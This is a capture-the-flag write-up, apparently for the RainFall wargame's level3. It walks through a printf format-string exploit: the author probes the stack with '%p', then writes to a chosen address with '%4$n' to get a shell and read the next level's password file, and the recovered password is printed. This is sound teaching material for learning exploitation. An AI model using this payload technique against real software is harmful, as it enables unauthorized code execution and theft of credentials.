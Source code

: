 # level3
For this level, we will use a segfault from %n flag of printf

We have an executble which is using printf
```bash
    level3@RainFall:~$ ./level3 
    %p %u %d
    0x200 3086817984 -1208010800
```
```bash
level3@RainFall:~$ python -c 'print("BBBB" + "%p " * 8)' | ./level3 
BBBB0x200 0xb7fd1ac0 0xb7ff37d0 0x42424242 0x25207025 0x70252070 0x20702520 0x25207025 
```
We can see that the thing we print will be stocked in the 4th variable, we will use it to execute some code and produce a segfault

Don't hesitate to read [the gdb explain](gdbwriteup.md) to understand how did we found the address to we have to send and the size of the buffer

```bash
level3@RainFall:~$ (python -c 'print("\x8c\x98\x04\x08" + "a" * 60 + "%4$n")'; cat) | ./level3
�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
cat /home/user/level4/.pass      
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```